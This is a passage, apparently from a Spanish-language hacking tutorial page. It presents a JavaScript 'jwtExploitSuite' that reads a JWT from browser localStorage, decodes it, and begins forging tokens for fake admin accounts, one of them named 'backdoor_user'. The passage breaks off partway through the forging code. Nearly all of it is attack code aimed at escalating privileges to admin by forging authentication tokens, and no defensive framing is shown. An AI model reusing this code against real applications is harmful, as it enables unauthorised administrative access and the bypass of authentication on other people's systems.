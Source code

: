#### **Método 3: Análisis y Manipulación de Token**
```javascript
// Script completo para análisis y manipulación de JWT
const jwtExploitSuite = {
  
  // Analizar token actual
  analyzeCurrentToken: () => {
    const token = localStorage.getItem('token');
    if (!token) {
      console.log("❌ No hay token disponible");
      return null;
    }
    
    const parts = token.split('.');
    if (parts.length !== 3) {
      console.log("❌ Token malformado");
      return null;
    }
    
    try {
      const header = JSON.parse(atob(parts[0]));
      const payload = JSON.parse(atob(parts[1]));
      const signature = parts[2];
      
      const analysis = {
        header,
        payload,
        signature,
        isExpired: payload.exp < Math.floor(Date.now() / 1000),
        timeToExpiry: payload.exp - Math.floor(Date.now() / 1000),
        algorithm: header.alg,
        tokenType: header.typ
      };
      
      console.log("🔍 ANÁLISIS DE TOKEN ACTUAL:");
      console.table(analysis);
      
      return analysis;
    } catch (error) {
      console.log("❌ Error analizando token:", error.message);
      return null;
    }
  },
  
  // Crear múltiples tokens falsos
  createMultipleFakeTokens: () => {
    const fakeUsers = [
      { id: 1001, username: 'fake_admin_1', role: 'admin' },
      { id: 1002, username: 'fake_admin_2', role: 'admin' },
      { id: 1003, username: 'backdoor_user', role: 'admin' }
    ];
    
    const forgedTokens = fakeUsers.map(user => {
      const userData = {
        ...user,
        email: `${user.username}@forged.com`,
        created_at: new Date().toISOString(),
        profile: {
          fullName: `Forged User ${user.id}`,
          department: 'Hacking Department'
        }
      };
      
```